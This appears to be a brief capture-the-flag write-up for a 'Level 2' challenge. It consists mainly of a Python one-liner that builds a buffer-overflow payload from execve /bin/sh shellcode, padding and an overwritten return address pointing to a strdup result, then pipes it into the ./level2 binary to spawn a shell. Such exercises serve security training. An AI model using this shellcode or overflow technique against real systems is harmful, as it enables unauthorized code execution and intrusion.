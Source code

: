 # Level 2

76 + 4 = 80 % 8 = 0
`\x08\xa0\x04\x08` = address return strdup
```
$ python -c 'shell = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"; print(shell + "a" * (80 - len(shell)) + "\x08\xa0\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level2
```
